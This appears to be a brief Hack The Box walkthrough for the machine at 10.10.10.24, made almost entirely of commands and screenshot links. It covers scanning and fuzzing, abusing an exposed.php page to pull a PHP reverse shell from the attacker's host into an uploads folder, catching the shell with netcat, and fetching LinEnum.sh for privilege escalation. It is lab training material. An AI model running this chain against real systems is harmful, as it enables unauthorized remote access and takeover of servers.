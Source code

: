 ```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.24
```
![image](https://github.com/regarmulia/HTB/assets/33616880/46735d62-2827-4576-966f-4259541ac585)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.24/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6e89b74-85df-466e-bd99-5779c782bc3e)


```
http://10.10.10.24/exposed.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/835a805c-0ea0-46dd-a17b-da4fad050cd3)


```
http://10.10.14.3/lala.txt -o uploads/lala.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fad0f92d-e6ca-4f6d-8abb-e4c2355198e6)


```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
diff -u php-reverse-shell.php shell.php
```
![image](https://user-images.githubusercontent.com/33616880/232672632-55eefa42-eeca-4a5d-8c7c-78a35e18a674.png)


```
http://10.10.14.3/php-reverse-shell.php -o uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6f90ae46-7da7-4b79-a535-23ff44c610eb)


```
nc -nlvp 1234
http://10.10.10.24/uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/edb8a437-2dc8-44b4-b5b6-6b05fbc7fefe)


```
python3 -c "import pty;pty.spawn('/bin/bash’)
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/14ee2274-fa4e-4a6d-a371-56f5584faf65)


```
OR
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/232672837-a43f9b03-ecb6-4c16-8966-9c8493c37512.png)
![image](https://user-images.githubusercontent.com/33616880/232672832-8c3e1108-d6fe-40e7-b4f0-84dce04e3aea.png)


![image](https://user-images.githubusercontent.com/33616880/232672860-72151f75-c0e3-46f7-ba0c-22f08b39ec86.png)
